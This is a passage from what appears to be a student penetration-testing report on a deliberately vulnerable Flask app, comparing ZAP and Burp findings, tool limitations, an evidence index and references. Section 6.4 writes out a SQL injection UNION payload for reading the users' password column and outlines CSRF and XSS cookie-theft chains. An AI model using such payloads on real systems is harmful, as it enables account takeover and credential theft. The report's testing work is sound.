| Plaintext password storage         | Not detected (Task C Section 6.4)                           | Not exercised in this run                                                       | Code-level only. Observable through the SQL extraction path of Section 4.1. |

The two stages are complementary, not redundant. SAST gave row-level coordinates inside the file. DAST proved which of those coordinates are reachable and chainable at runtime. Two classes were detected by only one stage in this run: hardcoded secrets and debug mode are SAST-only because they have no runtime signal a black-box scanner can read, while CSRF token absence is DAST-only because no source-level pattern reliably distinguishes a state-changing handler from a read-only one.

---

## 6. Tool limitations

### 6.1 ZAP did not authenticate, so it missed the XSS family

ZAP's traditional spider has no session. The product-name reflection in Section 4.2 and the review-comment XSS sink both sit behind seller authentication, so the spider never reached them and the active scanner never injected payloads into them. The result is that ZAP raised zero XSS alerts on an application that Task C demonstrated has eight distinct XSS sites (register rows 2 and 3). This is a configuration limitation rather than a detection limitation. ZAP supports authentication contexts and form-based authentication scripts (OWASP, n.d.) which would close the gap; that configuration was not in scope for this run, and the gap was filled by manual testing instead.

### 6.2 ZAP active scanner does not chain alerts

The Cookie No HttpOnly Flag alert is reported as Low. A plausible XSS alert, had ZAP reached one, would be reported separately. The attacker-relevant truth is that the two combined produce the session-theft chain demonstrated in Section 4.3. The scanner reports each finding in isolation at its individual severity. The chained impact is invisible to it. Triaging by severity alone would have ranked both below the High SQL injection cluster and missed the more dangerous attack path.

### 6.3 Burp Community has no automated scanner

Every exploit in Section 4 was driven manually. Burp Community lacks the active scanner shipped with Burp Professional, so it cannot replicate ZAP's breadth. In this task it provided proxy interception, request inspection, and Repeater, which is sufficient for confirming hand-picked vulnerability classes but does not scale beyond a small application. The two tools are complementary on this size of target: ZAP for breadth, Burp for the depth and chaining steps that ZAP's scanner cannot perform.

### 6.4 Three classes neither tool covered dynamically here

CSRF on `/delete` (state-changing GET with no token), the missing ownership check on the same route (any seller can delete any product), and plaintext password storage in `/register` are present in `app.py` but were not exploited dynamically in this run. Task C Section 6.4 records them as SAST blind spots; they are equally outside the unauthenticated ZAP surface used here. Confirming each dynamically is achievable: an HTML page with `` triggers the CSRF when an admin loads it, an authenticated session-swap reveals the missing ownership check, and the SQL injection of Section 4.1 can be widened (with payload `' UNION SELECT username, password, ... FROM users --`) to read the password column directly. None of those steps were performed for this submission, and they are not claimed.

---

## 7. Figures and evidence index

| Figure | Description                                                | File                                        |
| ------ | ---------------------------------------------------------- | ------------------------------------------- |
| 1      | ZAP spider results: 12 URLs discovered                     | `evidence/zap_spider_results.png`           |
| 2      | ZAP alerts tree after active scan                          | `evidence/zap_active_scan_alerts.png`       |
| 3      | ZAP HTML report alert summary                              | `evidence/zap_report_alert_summary.png`     |
| 4      | ZAP SQL Injection alert detail (CWE-89)                    | `evidence/zap_sqli_alert_detail.png`        |
| 5      | ZAP Anti-CSRF Tokens alert detail (CWE-352)                | `evidence/zap_csrf_alert_detail.png`        |
| 6      | Browser submitting SQLi payload to `/login`                | `evidence/blurb_sqli_login_test.png`        |
| 7      | Burp Proxy intercept of the SQLi POST request              | `evidence/burp_proxy_intercept_login.png`   |
| 8      | Burp Repeater: 302 Found with `Set-Cookie: username=admin` | `evidence/burp_repeater_sqli_bypass.png`    |
| 9      | Browser logged in as admin via SQL injection               | `evidence/browser_sqli_login_bypass.png`    |
| 10     | Add Product form with the XSS payload as product name      | `evidence/enter_xss_input_from_browser.png` |
| 11     | Burp HTTP history showing XSS payload in `/add` body       | `evidence/burp_repeater_reflected_xss.png`  |
| 12     | Browser alert from stored XSS in product name              | `evidence/browser_xss_result.png`           |
| 13     | XSS reads `testuser` cookie through `document.cookie`      | `evidence/session_hijack.png`               |
| 14     | XSS reads `admin` cookie (cross-user theft chain)          | `evidence/browser_cookie_theft_poc.png`     |

The full ZAP scan output is at [`scan-results/ZAP_by_checkmarx_scanning_report.html`](scan-results/ZAP_by_checkmarx_scanning_report.html). The application source under test is at [`vulnerable-web-app/app.py`](vulnerable-web-app/app.py).

---

## 8. References

MITRE. (2024a). *CWE-79: Improper neutralization of input during web page generation ('Cross-site scripting')*. The MITRE Corporation. https://cwe.mitre.org/data/definitions/79.html

MITRE. (2024b). *CWE-89: Improper neutralization of special elements used in an SQL command ('SQL injection')*. The MITRE Corporation. https://cwe.mitre.org/data/definitions/89.html

MITRE. (2024c). *CWE-352: Cross-site request forgery (CSRF)*. The MITRE Corporation. https://cwe.mitre.org/data/definitions/352.html

MITRE. (2024d). *CWE-1004: Sensitive cookie without 'HttpOnly' flag*. The MITRE Corporation. https://cwe.mitre.org/data/definitions/1004.html

OWASP. (n.d.). *ZAP authentication*. OWASP Foundation. https://www.zaproxy.org/docs/authentication/

OWASP. (2021). *OWASP Top 10:2021*. OWASP Foundation. https://owasp.org/Top10/

PortSwigger. (n.d.). *Burp Suite Community Edition*. PortSwigger Web Security. https://portswigger.net/burp/communitydownload
